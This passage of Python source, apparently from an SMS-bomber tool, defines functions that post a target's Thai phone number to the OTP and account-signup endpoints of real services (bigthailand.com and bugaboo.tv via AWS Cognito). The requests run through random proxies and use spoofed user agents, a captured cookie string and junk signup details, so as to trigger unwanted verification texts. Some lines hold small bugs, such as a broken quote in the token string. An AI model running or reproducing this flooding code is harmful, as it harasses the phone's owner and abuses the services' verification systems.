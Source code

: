 	r = SEND.post("https://www.bigthailand.com/authentication-service/user/OTP",headers={"user-agent": generate_user_agent(),"authorization": f"Bearer {TOKEN}['value']","content-type": "application/json;charset=UTF-8","cookie": f"""auth.strategy=local; auth._token.local=Bearer%20{TOKEN}['value]; _pk_ref.564990563.2c0e=%5B%22google%22%2C%22%22%2C1664004463%2C%22https%3A%2F%2Fwww.google.com%2F%22%5D; _pk_ses.564990563.2c0e=*; _gcl_au=1.1.1986299425.1664004463; _cdp_cfg=1; _asm_visitor_type=n; _ac_au_gt=1664004464356; _gid=GA1.2.681823710.1664004464; _gat_UA-165856282-1=1; popupTimeStamp=%7B%22popupIdx%22%3A0%2C%22expiredAt%22%3A%222022-09-24T07%3A57%3A43.685Z%22%7D; _asm_uid=890390276; cdp_session=1; _fbp=fb.1.1664004464406.202179650; _ga=GA1.2.2004890464.1664004464; _gac_UA-165856282-1=1.1664004466.Cj0KCQjw1bqZBhDXARIsANTjCPJYsw6vOZXFPznA9K3T9a7DJPSigqMeogNJR_toRTt9mJVPQifKu9IaAuM3EALw_wcB; isiframeenabled=true; _tt_enable_cookie=1; _ttp=fb53a55e-7e89-482c-8dcc-7d65cc3a9d43; _gcl_aw=GCL.1664004467.Cj0KCQjw1bqZBhDXARIsANTjCPJYsw6vOZXFPznA9K3T9a7DJPSigqMeogNJR_toRTt9mJVPQifKu9IaAuM3EALw_wcB; bigthailand-_zldp=OM%2F3Rx7iTnXlJ%2BG06WL7xCVOFTKwr0NmKdBzRqdYXCGLMGKJRuNpNfzZ9I3mvVMsodoRkLyJC2Y%3D; bigthailand-_zldt=93ed1974-6077-46c9-80b4-5d8af7b21d11-2; _ga_80VN88PBVD=GS1.1.1664004463.1.1.1664004470.53.0.0; _pk_id.564990563.2c0e=0.1664004463.1.1664004484.1664004463.; _ac_client_id=890389481.1664004485; _ac_an_session=zmzmzmzjzmzgzmzmzizjzdzrzqzjzgzrzqznzrzizdzizlzlznzjzjznznzrzmzdzizdzizlzlznzjzjznznzrzmzdzizlzlznzjzjznznzrzmzdzizdzgzjzizdzjzd2h25zdzgzdznzkzmzqzrzd; au_id=890389481; OptanonAlertBoxClosed=2022-09-24T07:28:08.466Z; OptanonConsent=isGpcEnabled=0&datestamp=Sat+Sep+24+2022+14%3A28%3A08+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.33.0&isIABGlobal=false&hosts=&consentId=47109f59-44b2-40f3-b0c9-4e0b0c8cd8a9&interactionCount=1&landingPath=NotLandingPage&groups=C0001%3A1%2CC0003%3A1%2CC0004%3A1%2CC0002%3A1%2CC0007%3A1"""},json={"locale":"th","phone":f"+66{phone[1:]}","email":"asjfgyfg2@hbsfsdf.sdf","userParams":{"buyerName":"sfiushjud fusdhfus","activateLink":"www.google.com"}},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")

def api32(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]},proxies={'http': 'http://' + random.choice(s)})
	r = requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	